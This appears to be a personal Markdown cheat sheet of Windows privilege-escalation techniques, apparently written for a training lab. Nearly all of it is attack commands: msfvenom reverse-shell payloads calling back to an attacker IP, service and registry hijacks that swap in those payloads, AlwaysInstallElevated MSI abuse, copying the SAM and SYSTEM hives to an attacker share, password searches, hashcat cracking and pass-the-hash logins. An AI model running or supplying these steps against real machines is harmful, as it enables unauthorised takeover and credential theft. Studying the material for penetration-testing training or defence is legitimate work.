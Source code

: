 ### Key terms

**resources**(a.k. objects): Files/Directories, Registry entries, Services

**ACL**(acces cintrol list) list defines whether a certain user or group has permission to perform a certain action on a resource
ACL contains of ACE(access control entry), each ACE defines the relationship between a principle(e.g. user, group) and a certain access right.


### Shells

```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

### Automated tools

**Powerup**

```
powershell
. .\PowerUp.ps1
Invoke-Allchecks
```

**Shurpup**

```
.\SharUp.exe 
```

**Seatbelt**

just list the information related to potential privilege escalation

```
.\SeatBelt -- print help menu
.\SeatBelt all
.\SeatBelt NonstandardProcesses
```

**Winpeas** 

enable colors if needed

```
reg add HKCU\Console /v VirtualTerminalLevek /t REG_DWORD /d 1
...
open new cmd
```

```
.\winpeas.exe
```

### Permissions
accesschk.exe check whether a user or a group has access to files, dirs. services etc.

use older version, as new will spawn a GUI popup window

```
accesschk.exe /accepteula -uwcqv user daclsvc  -- right access
accesschk.exe /accepteula -ucqv user daclsvc  -- chek permissions
accesschk.exe /accepteula -uwdq c:\  -- check write permissions for dirs
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc --chec registry permissions
```

```
icacls C:\ 
```

### Kernel exploits

`last thing you want to do`

```
systeminfo > \\10.8.67.157\\systeminfo.txt
python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploit-only | more
```

### Services
+ change binary in the configuration to revshell restart
+ check if we can right to any of the pieces of unqoated service path
+ registry permissions
+ insecyre service executables
+ DLL hijacking (download binary to your machine and use procmon to find "not found" dlls, check non-microsoft services for example)

`seek for possibility of edditing anythin + stop/start the service or restarting the machine`

run winpeas to find the services 

```
.\winpeas.exe quiet servicesinfo
```

check service permissions

```
accesschk.exe /accepteula -uwcqv user daclsvc  -- right access
accesschk.exe /accepteula -ucqv user daclsvc  -- chek permissions
```

if no accesscheck available https://www.winhelponline.com/blog/view-edit-service-permissions-windows/#sc_sdshow

```target
sc sdshow AdvancedSystemCareService9
```

```you
ConvertFrom-SddlString -sddl "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;RPWPDT;;;S-1-5-21-3029548963-3893655183-1231094572-1001)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)"
```

query the configuration of a service

```
sc.exe qc servname
```

query the status of a service

```
sc.exe query servname
```

modify a configuration option of a service

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

start / stop services

```
net start/stop servname
```

query the registry entry

```
reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc 
```

add to registry

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

query the registry for autoruns

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

check if service binary is writable - backup - copy reverse shell

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"


copy "C:\Program Files\File Permissions Service\filepermservice.exe" .

copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f dll -o dllhijack.exe
```


### Registry
+ autoruns (if you can write to the autorun executable and restart the system - you get system)
+ alwaysinstallelevated


```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

both should be present for exploit to work

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```


seacrh for passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"


winexe -U 'admin%password' //10.10.43.125 cmd.exe
```


### Passwords

```
winPEASany.exe filesinfo userinfo
```

use winpeas with userinfo anf file

```
cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

Transfer the SAM and SYSTEM files to your Kali VM:

```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\   copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

```
git clone https://github.com/Tib3rius/creddump7   pip3 install pycrypto   python3 creddump7/pwdump.py SYSTEM SAM`


hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

don't run from the system root, better run from the user home, or application directory or program directory

```
dir /s *pass* == *.config

findstr /si password *.xml *.ini *.txt
```

pass the hash instead of the password

```
pth-winexe -U 'admin%hash' //10.10.43.125 cmd.exe
```

### Scheduled tasks

```
schtasks /query /fo LIST /v 

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

### StartUps
```

C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

cscript C:\PrivEsc\CreateShortcut.vbs
```